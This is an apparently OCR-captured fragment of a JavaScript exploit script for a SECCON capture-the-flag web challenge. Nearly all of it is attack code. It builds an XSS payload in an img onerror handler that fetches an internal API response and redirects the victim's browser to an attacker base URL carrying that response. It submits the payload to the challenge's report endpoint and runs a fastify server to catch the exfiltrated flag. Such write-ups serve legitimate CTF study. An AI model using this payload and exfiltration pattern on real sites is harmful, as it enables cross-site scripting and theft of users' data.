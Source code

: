 ```javascript
      const res = await fetch('/api?expr=1', {
        method: 'GET',
        headers: {
          'aaa': '${evilHeader}',
        },
      });
      location = '${ATTACK_BASE_URL}/?text=' + encodeURIComponent(await res.text());
    };
    main();
  `.replaceAll("\n", "");
  if (evilJs.includes('"')) {
    fail("Invalid evilJs");
  }

  const xssPayload = `<img src=0 onerror="${evilJs}">`;

  const res = await (
    await fetch(`${SECCON_BASE_URL}/report`, {
      method: "POST",
      headers: {
        "Content-Type": "application/json",
      },
      body: JSON.stringify({
        expr: xssPayload,
      }),
    })
  ).text();
  console.log(res); // "Received :)"
};

const start = async () => {
  fastify.get("/", async (req, reply) => {
    const text = req.query.text;
    console.log(text); // Print a flag

    process.exit(0);
  });

  fastify.listen(
    { port: LISTEN_PORT, host: "0.0.0.0" },
    async (err, address) => {
      if (err) {
        fastify.log.error(err);
        process.exit(1);
      }

      await sleep(1000);
      await exploit();

      await sleep(5000);
      console.log("Failed");
      process.exit(1);
    }
  );
};
start();
```
